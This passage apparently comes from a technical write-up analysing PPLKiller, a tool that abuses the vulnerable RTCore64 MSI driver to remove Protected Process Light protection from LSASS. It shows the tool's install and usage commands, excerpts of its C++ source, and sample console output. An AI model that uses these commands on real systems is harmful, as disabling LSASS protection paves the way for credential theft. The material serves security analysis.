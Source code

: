 To use the tool, you would first have to install the MSI driver with the command `PPLKiller.exe /installDriver`. Then, you could use one of the following commands.

1. `PPLKiller.exe /disablePPL <LSASS_PID>`
2. `PPLKiller.exe /disableLSAProtection`

The option `/disableLSAProtection` does the same thing as `/disablePPL <LSASS_PID>`, except that it automatically retrieves the PID of the LSASS process. The target PID is then passed as a parameter, along with a custom structure (more about that later), to the function `disableProtectedProcesses(...)`.

```cpp
// Source: https://github.com/RedCursorSecurityConsulting/PPLKiller/blob/master/main.cpp
int wmain(int argc, wchar_t* argv[]) {
    // ...
    if (wcscmp(argv[1] + 1, L"disablePPL") == 0 && argc == 3) {
        Offsets offsets = getVersionOffsets();
        auto PID = _wtoi(argv[2]);
        disableProtectedProcesses(PID, offsets);
    }
    else if (wcscmp(argv[1] + 1, L"disableLSAProtection") == 0) {
        Offsets offsets = getVersionOffsets();
        auto lsassPID = processPIDByName(L"lsass.exe");
        disableProtectedProcesses(lsassPID, offsets);
    }
    // ...
    return 0;
}
```

Disabling the protection of a process, given its PID, would look something like this.

```console
C:\Temp>PPLKiller.exe /disablePPL 644
PPLKiller version 0.2 by @aceb0nd
[+] Windows Version 2009 Found
[*] Device object handle has been obtained
[*] Ntoskrnl base address: FFFFF80220600000
[*] PsInitialSystemProcess address: FFFFE38E99E85040
[*] Current process address: FFFFE38EA2E8B080
```

The function `disableProtectedProcesses()` first opens the device `\\.\RTCore64`, which is automatically created when the (64-bit) driver is loaded. It will use this handle to send commands to it through the [`DeviceIoControl`](https://learn.microsoft.com/en-us/windows/win32/api/ioapiset/nf-ioapiset-deviceiocontrol) API.

```cpp
void disableProtectedProcesses(DWORD targetPID, Offsets offsets) {
    // 1. Open the device \\.\RTCore64
    const auto Device = CreateFileW(LR"(\\.\RTCore64)", GENERIC_READ | GENERIC_WRITE, 0, nullptr, OPEN_EXISTING, 0, nullptr);
    // ...
}
```

